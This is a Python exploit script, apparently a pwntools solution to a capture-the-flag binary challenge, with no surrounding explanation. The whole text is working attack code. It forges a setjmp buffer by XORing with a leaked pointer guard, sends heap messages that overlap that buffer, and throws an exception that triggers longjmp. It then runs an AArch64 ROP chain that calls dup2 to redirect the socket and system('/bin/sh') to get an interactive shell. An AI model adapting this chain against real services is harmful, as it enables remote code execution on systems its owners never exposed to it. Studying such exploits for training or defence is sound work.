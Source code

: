 ```python
client_fd = 5
new_stackaddr = exe_base + 0x15590
new_jmpbuf = bytearray(leak)
new_jmpbuf[0x80:0x88] = p64(ptr_guard ^ (exe_base + 0x249c)) # in readall
new_jmpbuf[0x90:0x98] = p64(ptr_guard ^ new_stackaddr)
rop = flat([
    0, exe_base + 0x23b4, # => write, for sanity check
        new_stackaddr + 0x30, p32(0xaaaaaaaa), p32(client_fd), 0, 0,
    0, libc_base + 0x000dda08, # ldp x0, x1, [sp, #0x20]; ldp x29, x30, [sp], #0x30; ret; 
        exe_base + 0x1502c, p32(16), p32(client_fd),
    0, libc_base + 0xbc8e0, # dup2
        0, 0, 5, 0,
    0, libc_base + 0x000dda08, # ldp x0, x1, [sp, #0x20]; ldp x29, x30, [sp], #0x30; ret; 
        0, 0,
    0, libc_base + 0xbc8e0, # dup2
        0, 0, 5, 1,
    0, libc_base + 0x000dda08, # ldp x0, x1, [sp, #0x20]; ldp x29, x30, [sp], #0x30; ret; 
        0, 0,
    0, libc_base + 0xbc8e0, # dup2
        0, 0, 5, 2,
    0, libc_base + 0x000dda08, # ldp x0, x1, [sp, #0x20]; ldp x29, x30, [sp], #0x30; ret; 
        0, 0,
    0, libc_base + 0x47734, # system
        0, 0, exe_base + 0x159e0, 0,
])
rop1 = bytearray(rop[:0x30])
rop2 = rop[0x30:]
rop1[0x18:0x1c] = p32(len(rop2))
log.info("sending %d-byte rop", len(rop2))

# fill msgs
bad_msg(b"Hello from ROP!\n")
for i in range(4):
    bad_msg(b"a")
bad_msg(rop1)
for i in range(3):
    bad_msg(b"a")
bad_msg(b"/bin/sh\0")

# insert extra msg, throw exception on msg size
menu("E")
menu("A")
sendint(999)

# insert one more to overlap jmpbuf, throw exception on crc to longjmp
bad_msg(new_jmpbuf)

s.send(rop2)
s.recvuntil(b"Hello from ROP!\n")

s.interactive()
```
